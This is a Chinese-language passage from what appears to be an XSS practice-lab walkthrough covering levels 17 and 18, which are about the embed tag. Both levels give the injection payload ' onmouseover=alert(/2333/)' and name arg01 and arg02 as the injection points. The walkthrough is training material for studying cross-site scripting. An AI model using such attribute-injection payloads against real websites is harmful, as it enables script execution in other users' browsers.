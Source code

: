 #### 思考：

**payload：**

```
 onmouseover=alert(/2333/) 		//注意：onmouseover前面有一个空格
```



### level-18

#### 考点：embed标签

#### 思考：

与17题一样，arg01和arg02提交的变量为注入点

**payload：**

```
 onmouseover=alert(/2333/) 		//注意：onmouseover前面有一个空格
```



